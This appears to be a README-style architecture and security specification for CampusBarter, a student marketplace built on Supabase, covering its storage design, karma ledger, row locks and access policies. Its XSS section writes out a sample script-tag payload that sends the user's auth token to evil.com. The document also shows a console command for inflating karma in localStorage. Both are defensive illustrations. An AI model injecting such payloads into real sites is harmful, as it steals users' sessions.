


# 🏛️ Architecture & Security Specification

## Project: CampusBarter (CampusXchange)
**System Architecture:** Hybrid Cloud-Edge Dual-Mode SPA (Single Page Application)  
**Database Engine:** PostgreSQL 15 (Supabase) + LocalStorage Persistent Cache  

---

## 1. High-Level Architecture Diagram



---

## 2. Dual-Mode Storage Architecture

To provide zero-downtime student experiences and reliable academic testing without live internet dependencies, CampusBarter employs an **Adapter-Mediated Dual-Mode System**:

```
                       ┌─────────────────────────┐
                       │   Client UI Event       │
                       │   (e.g., Download PYQ)  │
                       └────────────┬────────────┘
                                    │
                       ┌────────────▼────────────┐
                       │ DataManager.download()  │
                       └────────────┬────────────┘
                                    │
                   ┌────────────────┴────────────────┐
             Is Online?                         Is Offline?
                   │                                 │
        ┌──────────▼──────────┐           ┌──────────▼──────────┐
        │ Supabase Cloud RPC  │           │ LocalStorage Check  │
        │ download_pyq_secure │           │ If karma >= 15:     │
        │ - Lock row          │           │ - Deduct 15         │
        │ - Check karma >= 15 │           │ - Cache state       │
        │ - Deduct 15         │           │ - Queue sync item   │
        │ - Record ledger     │           └─────────────────────┘
        └─────────────────────┘
```

### Why LocalStorage Alone Is Insufficient For Production:
- **Client-Side Vulnerability:** Any user can open Chrome DevTools, type `localStorage.setItem('cb_current_user', JSON.stringify({karma: 999999}))`, and artificially grant themselves unlimited points.
- **No Concurrency Control:** If a user opens two browser tabs and clicks "Download" at the exact same millisecond, local storage cannot perform atomic row locks.

### Why the Dual-Mode Strategy Solves This:
1. **In Production (Online):** Supabase serves as the single source of truth. Every transaction executes within an ACID transaction on PostgreSQL. LocalStorage serves strictly as a read-through read cache.
2. **In Local Testing / Offline Demonstrations:** The application falls back to `localStorage` simulating the exact server rules, allowing smooth evaluator testing even in airplane mode.

### 2.3 Document Storage Architecture (Google Drive Integration - Option 2)
To maximize free collegiate cloud storage and prevent PostgreSQL database bloat (saving the 500 MB database quota strictly for relational ledger rows), CampusBarter implements **Decoupled Document Storage**:
- **Binary PDF Document Store:** Hosted on a shared collegiate **Google Drive Cloud Archive** (providing 15 GB free storage).
  - Official Archive: [`CampusBarter Official Drive`](https://drive.google.com/drive/folders/1be2SNRssxdzlKLnCIMjGjkOh7UeJ_N9X?usp=drive_link)
- **Metadata & Immutable URLs:** Stored in the Supabase PostgreSQL `public.pyqs` table via the `file_url` column.
- **Download Flow:** Clicking "Download Full PDF" verifies that `karma >= 15`, executes the `-15 Karma` atomic deduction, and opens the verified document directly from the Google Drive cloud store.

---

## 3. End-to-End Data Flow (Step-by-Step)

Let us examine what occurs when a student clicks **"Download PDF"** on a question paper:



---

## 4. Strict Karma Economy Logic & Anti-Hacking Measures

### 4.1. The Threat Model
Without backend controls, typical student platforms suffer from:
1. **Karma Inflation:** Modifying the JavaScript client bundle to bypass deductions.
2. **Double-Spending Race Condition:** Rapidly firing simultaneous download requests before the balance updates.
3. **Impersonation:** Editing swap states of peers without authorization.

### 4.2. Mitigation: Row Level Security (RLS)
PostgreSQL Row Level Security ensures that even if an attacker acquires the public API key and makes raw `fetch()` calls to PostgREST, they are blocked at the kernel level:

```sql
-- Profiles table: Users can edit their name and skills, but NEVER karma!
CREATE POLICY "Users can update own profile except karma" 
ON public.profiles FOR UPDATE 
USING (auth.uid() = id)
WITH CHECK (auth.uid() = id);
```
Furthermore, direct column updates to `karma` are revoked from the `authenticated` and `anon` roles. Only functions marked `SECURITY DEFINER` possess administrative permissions to alter `karma`.

### 4.3. Mitigation: Row-Level Locking (`FOR UPDATE`)
To defeat double-spending (e.g., automated scripts clicking download 10 times in 10ms with only 15 Karma):
```sql
SELECT karma INTO v_current_karma 
FROM public.profiles 
WHERE id = v_user_id 
FOR UPDATE; -- Puts an exclusive row-level lock on the student's profile!
```
Any concurrent request trying to read or write the user's karma must wait until the first transaction completes its commit. The second request will read `0 Karma` and immediately fail.

### 4.4. Mitigation: Immutable Karma Ledger
Every single karma point created or destroyed has an immutable record in `public.karma_ledger`:
```sql
CREATE TABLE public.karma_ledger (
    id BIGSERIAL PRIMARY KEY,
    user_id UUID NOT NULL REFERENCES public.profiles(id),
    amount INTEGER NOT NULL, -- e.g., +300, +50, +25, -15
    action_type TEXT NOT NULL,
    reference_id TEXT,
    created_at TIMESTAMPTZ DEFAULT now()
);
```
If discrepancies arise, an auditor can run `SELECT SUM(amount) FROM karma_ledger WHERE user_id = ...` to verify mathematical balance integrity.

---

## 5. Frontend Security Protections

### 5.1. Cross-Site Scripting (XSS)
The frontend uses template literals to render papers and peers. An attacker might upload a paper with the subject:
`<script>fetch('https://evil.com/steal?token=' + localStorage.getItem('supabase.auth.token'))</script>`

**Solution Implemented in `supabase-client.js`:**
All dynamic strings pass through `sanitizeHTML()`:
```javascript
function sanitizeHTML(str) {
  if (typeof str !== "string") return str;
  return str
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}
```

### 5.2. Cross-Site Request Forgery (CSRF)
CampusBarter does not rely on ambient browser session cookies. Every Supabase communication transmits a short-lived cryptographically signed **JSON Web Token (JWT)** in the `Authorization: Bearer <token>` HTTP header. Foreign origin sites cannot forge this header.

---

## 6. Offline Asset Pipeline

To prevent third-party asset blocking, network timeouts, or tracking cookies from external CDNs:
- All 10 avatars and the background image are localized in `assets/images/`.
- Automated fetch scripts (`download_images.ps1`, `download_images.py`, `download_images.js`) are maintained in `scripts/` to rebuild the asset cache if required.
- `style.css` references `assets/images/campus-bg.jpg` directly.
- `script.js` references `assets/images/avatar-*.jpg` for all seeded profiles.
